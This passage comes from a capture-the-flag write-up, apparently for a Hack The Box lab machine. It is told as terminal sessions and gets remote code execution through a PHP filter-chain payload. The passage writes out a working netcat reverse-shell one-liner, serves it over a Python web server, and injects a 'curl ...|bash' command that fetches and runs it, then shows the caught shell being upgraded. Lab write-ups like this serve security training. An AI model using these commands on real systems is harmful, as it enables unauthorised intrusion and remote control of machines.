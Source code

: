 Made a reverse shell file, on my local machine and served it with webserver:   
```bash
┌──(kali㉿kali)-[~]
└─$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.114 9002 >/tmp/f" > test 

┌──(kali㉿kali)-[~]
└─$ sudo python -m http.server 80                                                           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.114 - - [19/Apr/2023 15:13:39] "GET /test HTTP/1.1" 200 -
10.10.11.198 - - [19/Apr/2023 15:17:53] "GET /test HTTP/1.1" 200 -

```

With the PHP Filter Chain Generator, i created a string, which would `curl` to my local webserver, and run the reverse shell bash file.   
The output of this is reaaaally long.    
```bash
python3 php_filter_chain_generator.py --chain "<?php system('curl http://10.10.14.114/test|bash');?>"
```

I pasted the output of the chain generator to Zap's request tab, and sent it to the server.   

And got shell:   
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.114] from (UNKNOWN) [10.10.11.198] 54950
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Spawned an improved shell (bash) and did the lookout:   
```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.114] from (UNKNOWN) [10.10.11.198] 47604
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@encoding:~/image/actions$ ^Z
zsh: suspended  nc -nlvp 9002
```
```bash
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nlvp 9002

www-data@encoding:~/image/actions$ export TERM=xterm
www-data@encoding:~/image/actions$ ls
action_handler.php  image2pdf.php
www-data@encoding:~/image/actions$ ls -la
total 12
drwxr-xr-x 2 svc svc 4096 Apr 19 12:21 .
drwxr-xr-x 7 svc svc 4096 Apr 19 12:21 ..
-rw-r--r-- 1 svc svc  191 Apr 19 12:21 action_handler.php
-rw-r--r-- 1 svc svc    0 Apr 19 12:21 image2pdf.php
www-data@encoding:~/image/actions$ cat image2pdf.php 
www-data@encoding:~/image/actions$ cd ..
www-data@encoding:~/image$ cd ..
www-data@encoding:~$ ls
api  html  image
www-data@encoding:~$ whoami
www-data
www-data@encoding:~$ sudo -l
```
